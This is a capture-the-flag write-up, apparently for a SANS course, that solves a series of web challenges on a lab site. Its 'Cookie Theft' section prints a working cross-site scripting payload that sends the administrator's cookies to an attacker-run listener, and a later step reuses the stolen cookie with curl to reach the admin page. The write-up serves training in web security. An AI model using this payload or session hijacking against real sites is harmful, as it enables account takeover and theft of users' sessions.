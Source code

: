 # Contact

* Challenge - Interact with the contact form on the http://www.issplaylist.com website. What is the flag returned as the reference number?
* Points - 3

First, I navigated to the website in the question. From there, I clicked "Contact" in the navbar at the top of the site to go to the contact form. After that, I submitted the form with expected input to get the flag. 

![Contact-1](https://github.com/user-attachments/assets/554573b6-cf11-4d39-a61c-cf6ef2dabf2f)

![Contact-2](https://github.com/user-attachments/assets/b3b72e0c-c945-4e90-9853-8fc67ccccce5)


# Vulnerability Discovery

* Challenge - Explore the Contact page on the http://www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.
* Points - 5

First, I tried experiemnting with including a ' in the fields to get an SQL error. That did not work, as I got the same flag as the previous challenge. 

![Vulnerability-Discovery-1](https://github.com/user-attachments/assets/9e6c2acb-21c3-492b-bed5-c3d5f6de6aa3)

Then I tested for a different input based vulnerability by typing the hr HTML tag into each field of the contact form. I noticed the horizontal line from the hr HTML tag was displayed on the page. 

![Vulnerability-Discovery-2](https://github.com/user-attachments/assets/da88e1ea-a407-428c-8be7-c17f6c381823)

This means my input was reflected on the page. To confirm this, I viewed the page source, and used CTRL + F to look for my input, the hr HTML tag. The page source shows my input.  

![Vulnerability-Discovery-3](https://github.com/user-attachments/assets/5fcfa96a-4913-4b4c-9a2b-12733f806139)


# Forced Browsing

* Challenge - Identify the hidden page on the http://www.issplaylist.com server. Submit the page name (XXXXX.html).
* Points - 5

Typically, administrators pages are hidden from normal users. If a web server is misconfigured, you can just go straight to the administrator page with a forced browsing attack. From the question, we know the page name is five characters. With that knowledge, I find the answer.  

![Forced-Browsing-1](https://github.com/user-attachments/assets/3d6c7c7c-4629-4a5d-a35c-6871f3924e4f)


# Cookie Theft

* Challenge - Administrators for the http://www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?
* Points - 5

From the Vulnerability Discovery challenge, I know the site is vulnerable to a specific input based attack. In Lab 4.4 from this course, SANS supplied to us a cookiecatcher PHP file. I started a PHP web server to listen for the cookie.

![Cookie-Theft-1](https://github.com/user-attachments/assets/651eb28a-e077-49d8-a4f3-647beb1cce5c)

After starting the listener on my attacker terminal, I went back to the browser. At the contact form, I put the following string in all of the fields then submited the form - ```<script>document.location='http://10.142.148.12:2222/?'+document.cookie;</script>```

![Cookie-Theft-2](https://github.com/user-attachments/assets/92775db5-f99f-4975-bead-2d2a6ef18727)

Going back to my attacker terminal, where the cookiecatcher PHP file is running, I can see the name of the stolen cookie. 

![Cookie-Theft-3](https://github.com/user-attachments/assets/96974117-4f82-4657-acc7-190582a682f6)


# Unauthorized Access

* Challenge - Use the stolen cookie to access the admin page. Submit the flag.
* Points - 5

Now that I have the cookie for admin from the Cookie Theft challenge, I can use curl and the -b argument to specify a token and return the content of that page as if I were logging in as admin. In my attacker terminal, I ran a curl command to get access to the admin page.

This returned the admin page output. Scroll down to see the flag. 
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/374ca600-ede7-44a5-8a2e-c04462682c60)
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/391d29fd-1221-4379-9ae1-4cefed9fa3a1)
